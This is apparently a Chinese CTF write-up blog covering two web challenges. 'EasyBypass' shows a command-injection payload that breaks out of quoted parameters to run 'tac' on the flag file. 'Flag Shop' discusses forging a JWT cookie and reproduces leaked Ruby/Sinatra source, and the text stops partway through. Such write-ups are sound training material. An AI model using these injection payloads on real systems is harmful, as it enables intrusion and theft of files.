 ﻿@[TOC]


# EasyBypass

```php

$comm1 = '"' . $comm1 . '"';
$comm2 = '"' . $comm2 . '"';

$cmd = "file $comm1 $comm2";

```

先闭合命令前的双引号，新建自己想要的命令语句，再闭合之后的

`?comm1=";tac /fla?;"&comm2=1`

第一个没过滤分号，能闭合语句，也没过滤双引号，`head`和`tac`


# [SCTF2019]Flag Shop
>[佬的博客](https://blog.csdn.net/Mrs_H/article/details/121493970)

![在这里插入图片描述](https://img-blog.csdnimg.cn/b1e83853e5eb47eab673dea02ff319c9.png)
点一下work会增加金克拉，抓包看一下能改数值么
发现有jwt格式数据

![在这里插入图片描述](https://img-blog.csdnimg.cn/216672d856a04a36b3b2ed05f8ffd800.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/7f9159094e16400bb846391869d2e22e.png)
如果有密钥的话就能伪造jwt了

robots.txt
![在这里插入图片描述](https://img-blog.csdnimg.cn/41b63b565d4542d9ac713734ac43bf2d.png)
```php

require 'sinatra'
require 'sinatra/cookies'
require 'sinatra/json'
require 'jwt'
require 'securerandom'
require 'erb'

set :public_folder, File.dirname(__FILE__) + '/static'

FLAGPRICE = 1000000000000000000000000000
ENV["SECRET"] = SecureRandom.hex(64)

configure do
  enable :logging
  file = File.new(File.dirname(__FILE__) + '/../log/http.log',"a+")
  file.sync = true
  use Rack::CommonLogger, file
end

get "/" do
  redirect '/shop', 302
end

get "/filebak" do
  content_type :text
  erb IO.binread __FILE__
end
```